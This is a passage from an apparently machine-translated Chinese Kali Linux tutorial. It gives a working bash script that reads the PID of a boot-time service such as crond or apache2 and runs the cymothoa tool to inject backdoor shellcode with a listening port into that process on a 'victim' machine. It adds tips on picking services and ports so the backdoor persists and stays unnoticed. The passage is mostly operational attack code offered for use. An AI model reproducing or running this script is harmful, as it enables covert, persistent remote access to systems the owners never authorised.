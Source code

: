 这是最难的部分。如果你有任何关于 shell 脚本的想法，你可以理解。或者试着学习一些。反正剧本很简单。它首先提取服务或守护进程的 pid。检查它是否是一个数字。

有时一个进程会有子进程。因此将有不止一个可用的 PID。在这种情况下，有必要从 pid 列表中单独提取一个 PID。然后脚本将 pid 分配给一个变量(这里说 q)。然后使用变量 q 的值作为“-p”选项的值来执行 cymothoa。这是剧本。

```
#!/bin/bash
p=`cat /var/run/crond.pid`
#extracts the pid. Here replace the last with a process of your desire.
#example: p=`cat /var/run/apache2.pid`.
#Remember the chracter before cat & after pid is a backtick & not an inverted comma.
if [ "$p" -eq "$p" ] 2>/dev/null; then #checks whether it's a number or not.
q=$p
else
q=`(echo $p | awk '{print $2}')` #takes the next row which will be a number. Here also it's a backtick
fi
echo $q
exec /cymothoa-1-alpha/cymothoa -p $q -s 1 -y 100 # make sure to give absolute path of cymothoa in the victim.
exit
```

需要注意的事项:

*   将命令的输出分配给变量时，会使用反勾号。
*   每当需要时，总是给出绝对和完整的路径。
*   你可以选择任何服务。像 apache2/crond/vsftpd/mysqld 等可能在引导时启动的服务是合适的。
*   Pid 位置是标准的 unix 系统是“/var/run/process.pid”。
*   确保监听端口(-y 选项)不会被其他服务使用。如果是 web 服务器，给端口 80 将是一个坏主意。

将脚本复制到 kali linux 机器中的一个文件中。相应地编辑并保存它。

[![cymothoa](img//ed491fd783c0536e7edfbdd516901ed9.png)](http://kalilinuxtutorials.com/ma/cymothoa/attachment/cymothoa6/)
